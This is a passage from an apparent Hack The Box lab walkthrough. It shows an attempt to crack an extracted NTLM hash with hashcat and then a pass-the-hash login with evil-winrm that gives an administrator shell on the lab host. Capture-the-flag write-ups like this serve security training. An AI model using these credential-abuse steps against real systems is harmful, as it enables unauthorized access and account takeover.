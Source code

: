 Here I can extract NTLM hash : `ae5064c2f62317332c88629e025924ef`
Let's try cracking this hash using `hashcat`

```bash
┌──(kali㉿kali)-[~/htb]
└─$ hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt.gz

<SNIP>
Session..........: hashcat                                
Status...........: Exhausted
Hash.Mode........: 1000 (NTLM)
Hash.Target......: ae5064c2f62317332c88629e025924ef
Time.Started.....: Thu Nov 28 08:49:42 2024 (2 secs)
Time.Estimated...: Thu Nov 28 08:49:44 2024 (0 secs)
<SNIP>
```

It's not crackable... but still we can use the NTLM hash itself.
Let's try opening a shell using `evil-winrm`.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ evil-winrm -i 10.10.11.236 -u administrator -H 'ae5064c2f62317332c88629e025924ef'
 
Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine               

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion                                 

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
manager\administrator
```

Yeah, now I have a shell!